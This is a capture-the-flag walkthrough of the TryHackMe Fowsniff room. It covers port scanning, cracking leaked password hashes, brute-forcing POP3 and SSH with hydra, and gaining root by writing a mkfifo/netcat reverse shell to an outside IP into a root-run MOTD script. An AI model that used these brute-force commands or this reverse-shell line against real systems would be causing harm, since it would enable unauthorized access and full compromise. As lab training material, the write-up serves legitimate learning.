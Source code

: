 # Fowsniff CTF (THM)

- https://tryhackme.com/room/ctf
- March 7, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
3. 110/pop3 Dovecot pop3d
   - pop3-capabilities: UIDL AUTH-RESP-CODE CAPA TOP SASL(PLAIN) USER RESP-CODES PIPELINING
4. 143/imap Dovecot imapd
   - map-capabilities: IDLE AUTH=PLAINA0001 post-login have IMAP4rev1 LITERAL+ more SASL-IR listed capabilities OK Pre-login LOGIN-REFERRALS ID ENABLE

- it was guided by questions and hints from THM
- Using Google, can you find any public information about them?
  - By googling, get username and hashed passwords from here - https://raw.githubusercontent.com/berzerk0/Fowsniff/main/fowsniff.txt

![](images/2023-03-07-23-50-05.png)

- save separately the username and password hashes
- cracked password hashes from https://crackstation.net/
- save as pwd.txt
- brute force with hydra to login pop3 service

```sh
$ hydra -L users.txt -P pwd.txt -f $IP pop3 -V
```

- get username and password
- enter pop3 service with nc

![](images/2023-03-08-00-01-30.png)

- from one of the mail, potential ssh password is found

- try to brute force ssh login with potential password

```sh
$ hydra -L users.txt -p "password_from_mail" ssh://$IP
```

- then, found username

## User Access

- enter ssh with above credentials
- there are many users in this machine

```sh
baksteen@fowsniff:~$ ls /home
baksteen  mauer  mursten  mustikka  parede  sciana  seina  stone  tegel
```

- current user has no sudo access
- run linpeas

```
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1000(stone) gid=1000(stone) groups=1000(stone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),119(lpadmin),120(sambashare)
uid=1001(parede) gid=100(users) groups=100(users),1005(parede)
uid=1002(mauer) gid=100(users) groups=100(users),1002(mauer)
uid=1003(sciana) gid=100(users) groups=100(users),1006(sciana)
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
uid=1005(mursten) gid=100(users) groups=100(users),1003(mursten)
uid=1006(tegel) gid=100(users) groups=100(users),1008(tegel)
uid=1007(seina) gid=100(users) groups=100(users),1007(seina)
uid=1008(mustikka) gid=100(users) groups=100(users),1004(mustikka)
```

- all the users are gid -> users, only stone has sudo

- Executable files

```
╔══════════╣ Executable files potentially added by user (limit 70)
2018-03-11+23:25:44.6493940440 /opt/cube/cube.sh
2018-03-11+20:27:48.0303333080 /etc/update-motd.d/00-header
2018-03-08+22:34:16.8355092010 /etc/postfix/originals/post-install
2018-03-08+22:34:16.8315092340 /etc/postfix/originals/postfix-script
```

```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/home/baksteen
/opt/cube
/run/lock
/run/shm
/run/user/1004
/run/user/1004/systemd
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/linpeas.sh
/tmp/lp_out.ansi
/tmp/.Test-unix
```

```
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
  Group users:
/opt/cube/cube.sh
  Group baksteen:
/home/baksteen
```

- check /opt/cube/cube.sh

```
-rw-rwxr-- 1 parede users  851 Mar 11  2018 cube.sh
```

![](images/2023-03-08-00-30-30.png)

![](images/2023-03-08-00-30-02.png)

- is cube.sh file used for welcome message of ssh?

- check /etc/update-motd.d/00-header

```sh
baksteen@fowsniff:/etc/update-motd.d$ ls -la | grep 00-header
-rwxr-xr-x  1 root root 1248 Mar 11  2018 00-header
```

- this file will be run by root

```sh
baksteen@fowsniff:/opt/cube$ cat /etc/update-motd.d/00-header
#!/bin/sh
...
#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"
sh /opt/cube/cube.sh
```

- try to add reverse shell in cube.sh file
- in this machine, nc and mkfifo present
- in cube.sh,

```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```

![](images/2023-03-08-00-34-54.png)

## Root Access

- listen with nc at local machine and
- login again with that user

![](images/2023-03-08-00-36-19.png)

---

- What is /etc/update-motd.d/00-header?

The /etc/update-motd.d/00-header script in Ubuntu is a part of the update-motd system that generates the message of the day (MOTD) displayed to users when they log in to the system via a terminal. The MOTD typically displays system information such as the hostname, kernel version, and system load, as well as any important news or messages that administrators want to communicate to users.

The 00-header script is the first script that is run when the update-motd command is executed, and it is responsible for generating the header of the MOTD. The header typically includes the system hostname, the date and time, and other basic system information. The 00-header script is usually not modified by users, and any customizations to the MOTD are typically made by adding or modifying scripts in the /etc/update-motd.d/ directory.

---
